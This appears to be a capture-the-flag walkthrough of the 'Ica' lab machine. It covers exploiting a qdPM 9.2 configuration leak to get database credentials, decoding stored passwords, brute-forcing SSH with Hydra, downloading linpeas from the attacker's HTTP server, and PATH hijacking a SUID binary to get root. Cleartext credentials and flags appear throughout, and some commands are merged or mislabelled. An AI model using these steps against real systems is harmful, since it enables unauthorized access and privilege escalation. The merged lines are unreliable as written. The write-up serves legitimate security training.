Ica
Initial Reconnaissance¶
To begin, I scanned the network to identify the target machine's IP address:
ip neigh
# Alternatively, we can use:
sudo arp-scan -l

The discovered IP address was 192.168.57.6.
Next, I conducted an nmap scan to enumerate open ports. The scan revealed three open ports: 22 (SSH), 80 (HTTP), and 3306 (MySQL).

Enumeration¶
Accessing the web server on port 80, I encountered a login screen. At the bottom of the login section, the CMS version was displayed as qdPM 9.2.

Using searchsploit, I checked for known exploits for qdPM 9.2 and found an exploit related to password exposure.

To review the exploit details, I extracted it with:
searchsploit -x php/webapps/50176.txt

The exploit directed me to a URL where the database credentials were exposed at: http://<website>/core/config/databases.yml
Visiting this URL confirmed the presence of the database configuration file containing plaintext credentials.

The captured credentials were as follows:
db_username=qdpmadmin
db_name=qdpm
host=localhost (192.168.57.6)
port=3306
password=UcVQCMQk2STVeS6J
Using the obtained credentials, I connected to the MySQL database:
mysql -h 192.168.57.6 -u qdpmadmin -p
# Password: UcVQCMQk2STVeS6J`

Listing the databases showed two unique databases: qdpm and staff.
The qdpm database contained no relevant information, but the staff database included two tables of interest: user and login.
SHOW DATABASES;
USE staff;
SHOW TABLES;
SELECT * FROM user;
SELECT * FROM login;
Examining the tables, the user table held usernames, while the login table contained base64-encoded passwords. Importantly, the passwords were not logically aligned with their users but linked via their IDs.
To correlate passwords with users, I matched the id from the user table to the user_id in the login table.


After sorting, the credentials appeared as:
smith = WDdNUWtQM1cyOWZld0hkQw==
lucas = c3VSSkFkR3dMcDhkeTNyRg==
travis = REpjZVlyOThXMjhZN3dMZw==
dexter = N1p3VjRxdGc0MmNtVVhHWA==
meyer = Y3FObkJXQ0J5UzJEdUpTeQ==
To decode the passwords, I used the base64 command:
echo "<encoded_passwd>" | base64 -d
Resulting in cleartext passwords:
smith = X7MQkP3W29fewHdC
lucas = suRJAdGwLp8dy3rF
travis = DJceVy98W28Y7wLg
dexter = 7ZwV4qtg42cmUXGX
meyer = cqNnBWCByS2DuJSy
Exploitation¶
Given port 22 was open, I manually attempted SSH logins with the usernames and their decoded passwords. Only Travis and Dexter could successfully authenticate.
Alternatively, I automated this process using Hydra. I saved usernames in users.txt and passwords in passwd_cracked.txt, then ran:
hydra -L users.txt -P passwd_cracked.txt ssh://192.168.57.6
Hydra confirmed the credentials for Travis.

I logged in as Travis:
ssh travis@192.168.57.6
# Password: DJceVy98W28Y7wLg

Inside Travis' account, I found the user.txt file containing the flag:
ICA{Secret_Project}
Running linpeas yielded no further privilege escalation insights from this user.
To upload linpeas:
# From local machine, run a Python HTTP server:
python3 -m http.server 8000
# On target machine, navigate to /tmp and download linpeas:
wget http://<vboxnet>:8000/linpeas.sh
# Make linpeas executable:
chmod +x linpeas.sh
Initial Shell¶
Next, I logged into Dexter's account:
ssh dexter@192.168.57.6
# Password: 7ZwV4qtg42cmUXGX
 Inside Dexter's home directory, I found a note referencing a potentially vulnerable executable. This became my next focus.
Running linpeas again, I located the binary in question.

Attempting to run it directly resulted in a permission error.

Privilege Escalation¶
Using strings analysis on the binary:
strings get_access
The output revealed the binary executed the cat command to read files accessible only by root.

Because the binary called cat by relative path (/usr/bin/cat), I attempted a Relative Path Hijacking attack on this SUID program.
The steps were:
Navigate to /tmp:
cd /tmp
Create a file named cat:
touch cat
Add a command to spawn a root shell:
echo "/bin/bash" > cat
Update the PATH environment variable to include /tmp first:
echo $PATH export PATH=/tmp:$PATH
Confirm /tmp is first in PATH:
echo $PATH
Make the custom cat executable and run the vulnerable binary:
chmod +x cat /opt/get_access

The shell spawned had root privileges. Since the original cat was replaced, I used more to view the root-only file.

The root-only file contained the flag:
ICA{Next_Generation_Self_Renewable_Genetics}
To restore the PATH variable and fix the cat command functionality:
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:$PATH
This corrected the issue.
